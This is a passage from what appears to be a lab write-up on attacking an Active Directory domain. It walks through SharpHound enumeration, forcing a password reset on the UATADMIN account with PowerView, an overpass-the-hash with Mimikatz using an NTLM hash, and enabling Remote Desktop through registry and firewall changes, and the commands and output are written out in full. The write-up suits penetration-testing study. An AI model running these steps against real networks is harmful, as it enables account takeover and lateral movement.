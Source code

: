 ```sh
PS C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors> [!] Cache File Found! Loaded 119 Objects in cache
SharpHound Enumeration Completed at 10:49 PM on 7/3/2024! Happy Graphing!

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 104 MB RAM
Status: 5 objects finished (+5 ∞)/s -- Using 105 MB RAM
Enumeration finished in 00:00:00.1406833
Compressing data to C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors\20210703224919_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:49 PM on 7/3/2024! Happy Graphing!
```

the `All` collection method would gather comprehensive data about the domain, while the `LoggedOn` method focuses on currently active sessions. 

# target 2: leveraging password resets

this machine represents a typical UAT server in an enterprise environment. UAT servers are used to test apps in an environment that closely mimic production, allowing users to verify that the software meets requirements before going live.

these servers often have looser security controls (compared to production systems). the challenge here is to exploit the delicate balance between functionality + security that UAT environments often struggle with.

it's clear that UAT servers are critical in the SDLC, but they're often overlooked from a security perspective. they may have elevated privileges to simulate various user roles, and their configurations might be less stringent to facilitate testing. this makes them valuable stepping stones for an attacker moving through a network.

earlier, running BloodHound revealed that the `bilal` user could force a password change for the `UATADMIN` user. let's exploit this using PowerView.

```sh
PS C:\bilal\AD>  Set-DomainUserPassword -Identity UATADMIN -Verbose
cmdlet Set-DomainUserPassword at command pipeline position 1
Supply values for the following parameters:
AccountPassword: ********
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'UATADMIN'
VERBOSE: [Set-DomainUserPassword] Password for user 'UATADMIN' successfully reset
```

this PowerView command allows me to forcibly change the password of another user's account. usually, this ability rests with IT for support purposes but can be a significant risk if not properly controlled. by changing the password, i can gain access to a more privileged account.

using mimikatz, i can perform an overpass-the-hash attack. this is when an attacker isn't able to access the cleartext password of a target, but can acquire a Kerberos ticket armed with just the NTLM hash of the password.

```sh
PS C:\bilal\AD>  Invoke-Mimikatz -Command "sekurlsa::pth /user:uatadmin /domain:nebula.cosmos.local /ntlm:271B74BE505CD48CEF768D0D973E59E7 /run:powershell.exe"

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::pth /user:uatadmin /domain:nebula.cosmos.local /ntlm:271B74BE505CD48CEF768D0D973E59E7 /run:powershell.exe
```

[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> whoami;hostname nebula\uatadmin
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow 
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Test-NetConnection 172.16.10.1 -CommonTCPPort rdp